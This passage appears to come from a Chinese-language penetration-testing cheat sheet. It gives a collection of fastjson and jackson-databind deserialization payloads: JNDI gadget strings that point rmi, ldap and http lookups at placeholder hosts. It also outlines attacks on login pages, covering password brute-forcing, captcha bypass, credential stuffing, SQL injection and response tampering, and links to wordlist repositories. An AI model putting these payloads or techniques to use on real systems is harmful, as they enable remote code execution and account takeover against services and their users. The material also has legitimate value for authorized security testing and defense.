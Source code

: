 ```
{"@type": "com.mchange.v2.c3p0.JndiRefForwardingDataSource","jndiName": "rmi://JndiRefForwardingDataSource.localhost/JndiRefForwardingDataSource","loginTimeout": 0}

// 基于JndiDataSourceFactoryDataSource
{"@type": "org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties": {"data_source": "rmi://JndiDataSourceFactory.localhost/JndiDataSourceFactory"}}

// 基于StatisticsService
{"@type": "org.hibernate.jmx.StatisticsService","SessionFactoryJNDIName": "rmi://StatisticsService.localhost/StatisticsService"}

```
#### jackson_databind反序列化
> **jackson_databind反序列化payload集合**
```
{"param": ["com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig",{"properties": {"UserTransaction":"ldap://jackson_databind_9547.localhost/jackson_databind_9547"}}]}

{"param": ["br.com.anteros.dbcp.AnterosDBCPConfig", {"healthCheckRegistry": "ldap://jackson_databind_9548.localhost/jackson_databind_9548"}]}

{"param": ["com.caucho.config.types.ResourceRef", {"lookupName": "ldap://jackson_databind_10673.localhost/jackson_databind_10673"}]}

{"param": ["org.apache.openjpa.ee.WASRegistryManagedRuntime",{"registryName": "ldap://jackson_databind_11113.localhost/jackson_databind_11113"}]}

param=["ch.qos.logback.core.db.JNDIConnectionSource", {"jndiLocation": "rmi://jackson_databind_12834.localhost/jackson_databind_12834"}]

{"param": ["org.springframework.context.support.FileSystemXmlApplicationContext","http://jackson_databind_7525.localhost/jackson_databind_7525"]}


```

## 渗透流程思路

### 登陆框

> **暴力破解用户名密码，验证码爆破和绕过，手机号撞库，测试sql注入，未授权访问，返回包绕过**

暴力破解用户名密码：固定用户名如：admin进行爆破密码，固定默认密码如：123456进行爆破用户名<br>
验证码爆破和绕过：验证码是4位，验证码参数删除，验证码前端验证无效<br>
手机号撞库：可搜集高质量的手机号<br>
测试sql注入：用户名框、密码框<br>
未授权访问：修改成登录主页面如：/index<br>
返回包绕过：false修改true，fail修改success，0修改1，301修改200<br>

- [hacden/常用字典](https://github.com/hacden/Hack/tree/master/%E5%B8%B8%E7%94%A8%E5%AD%97%E5%85%B8)
- [klionsec/SuperWordlist](https://github.com/klionsec/SuperWordlist)
- [rootphantomer/Blasting_dictionary](https://github.com/rootphantomer/Blasting_dictionary)
- [TheKingOfDuck/fuzzDicts](https://github.com/TheKingOfDuck/fuzzDicts)
